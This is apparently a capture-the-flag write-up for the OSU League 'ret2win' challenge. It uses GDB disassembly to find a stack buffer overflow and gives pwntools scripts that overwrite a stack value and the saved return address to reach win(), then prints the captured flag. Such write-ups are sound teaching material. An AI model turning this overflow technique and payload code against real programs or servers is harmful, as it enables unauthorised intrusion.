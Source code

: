 ```yaml
---
title: "OSU League 2020/2021 - ret2win Writeup"
date: 2020-11-07
tags:
  - osuleague
  - ctf
  - security
---
```


The goal of this challenge is to redirect code flow to the `win()` function.  Opening up the binary in GDB, we can see some other interesting functions that we have.
```
0x0000000000400607  win
0x0000000000400652  part2
0x0000000000400699  part1
0x00000000004006ee  main
```

Let's disassemble them and see what's going on:

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x00000000004006ee <+0>:	push   rbp
   0x00000000004006ef <+1>:	mov    rbp,rsp
   0x00000000004006f2 <+4>:	mov    eax,0x0
   0x00000000004006f7 <+9>:	call   0x400699 <part1>
   0x00000000004006fc <+14>:	mov    eax,0x0
   0x0000000000400701 <+19>:	pop    rbp
   0x0000000000400702 <+20>:	ret
End of assembler dump.
gdb-peda$ disass part1
Dump of assembler code for function part1:
   0x0000000000400699 <+0>:	push   rbp
   0x000000000040069a <+1>:	mov    rbp,rsp
   0x000000000040069d <+4>:	sub    rsp,0x20
   0x00000000004006a1 <+8>:	mov    QWORD PTR [rbp-0xc],0x0
   0x00000000004006a9 <+16>:	lea    rdi,[rip+0x1a0]        # 0x400850
   0x00000000004006b0 <+23>:	call   0x4004e0 <puts@plt>
   0x00000000004006b5 <+28>:	mov    rdx,QWORD PTR [rip+0x200994]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x00000000004006bc <+35>:	lea    rax,[rbp-0x20]
   0x00000000004006c0 <+39>:	mov    esi,0x20
   0x00000000004006c5 <+44>:	mov    rdi,rax
   0x00000000004006c8 <+47>:	call   0x400500 <fgets@plt>
   0x00000000004006cd <+52>:	mov    rdx,QWORD PTR [rbp-0xc]
   0x00000000004006d1 <+56>:	movabs rax,0xbaddecafbeefcafe
   0x00000000004006db <+66>:	cmp    rdx,rax
   0x00000000004006de <+69>:	jne    0x4006eb <part1+82>
   0x00000000004006e0 <+71>:	mov    eax,0x0
   0x00000000004006e5 <+76>:	call   0x400652 <part2>
   0x00000000004006ea <+81>:	nop
   0x00000000004006eb <+82>:	nop
   0x00000000004006ec <+83>:	leave
   0x00000000004006ed <+84>:	ret
End of assembler dump.
```

So all `main` does it seems is to just call `part1()`.  And in that function it compares some value on the stack to the value `0xbaddecafbeefcafe`, and jumps to `part2()` if they are equal.  We can see the value is located at `$rbp-0xc`, and that the max buffer size is `0x20` bytes. So all we need to do is input `0x20 - 0x0c = 0x14` bytes, or 20 bytes, followed by `0xbaddecafbeefcafe`.

```python
from pwn import *

io = process("./ret2win")

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

io.sendline(payload_1)

io.interactive()
```

And running it we are able to call `part2()`!

```
[+] Starting local process './ret2win': pid 2557
[*] Switching to interactive mode

Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
$ no
[*] Got EOF while reading in interactive
```

Let's now take a look at the disassembly of `part2()`:


```
gdb-peda$ disass part2
Dump of assembler code for function part2:
   0x0000000000400652 <+0>:	push   rbp
   0x0000000000400653 <+1>:	mov    rbp,rsp
   0x0000000000400656 <+4>:	sub    rsp,0x20
   0x000000000040065a <+8>:	lea    rdi,[rip+0x13e]        # 0x40079f
   0x0000000000400661 <+15>:	call   0x4004e0 <puts@plt>
   0x0000000000400666 <+20>:	lea    rdi,[rip+0x143]        # 0x4007b0
   0x000000000040066d <+27>:	call   0x4004e0 <puts@plt>
   0x0000000000400672 <+32>:	lea    rdi,[rip+0x197]        # 0x400810
   0x0000000000400679 <+39>:	call   0x4004e0 <puts@plt>
   0x000000000040067e <+44>:	mov    rdx,QWORD PTR [rip+0x2009cb]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400685 <+51>:	lea    rax,[rbp-0x20]
   0x0000000000400689 <+55>:	mov    esi,0x64
   0x000000000040068e <+60>:	mov    rdi,rax
   0x0000000000400691 <+63>:	call   0x400500 <fgets@plt>
   0x0000000000400696 <+68>:	nop
   0x0000000000400697 <+69>:	leave
   0x0000000000400698 <+70>:	ret
End of assembler dump.
gdb-peda$ break *0x0000000000400691
Breakpoint 1 at 0x400691
gdb-peda$ r < part1
```
I set a break point at the end so I can take a look at the stack frame.  `part1` is just a text file with the payload already in it.

```
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x400691 in part2; saved rip = 0x4006ea
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffdeb0, args:
 Locals at 0x7fffffffdeb0, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rbp at 0x7fffffffdeb0, rip at 0x7fffffffdeb8
gdb-peda$ p 0xdeb8 - (0xdeb0 - 0x20)
$4 = 0x28
```

So now with this, we know the start of the buffer is at `$rbp - 0x20`. Subract that from `$rip` and we get how many bytes we need to fill before we overwrite the instruction pointer.

But what should we overwrite it with?  Well, we can give any address we want and it will jump to it!  So let's give it the address of the `win()` function. Recall that:

```
0x0000000000400607  win
```

So now we can build our final exploit:

```python
from pwn import *

#io = process("./ret2win")
io = remote('ctf.ropcity.com', 31337)

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

f = open("part1", "wb")
f.write(payload_1)
f.close()

io.sendline(payload_1)
io.recvuntil("any points")

payload_2 = b"A" * 40
payload_2 += p64(0x0000000000400607)

io.sendline(payload_2)

io.interactive()
```

And running it we get the flag!

```
[+] Starting local process './ret2win': pid 115498
Reply "yes" if you remember how to overwrite data

[*] Switching to interactive mode
Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
osu{$oRRY_y0U_d0_de$Erv3_7his}
```
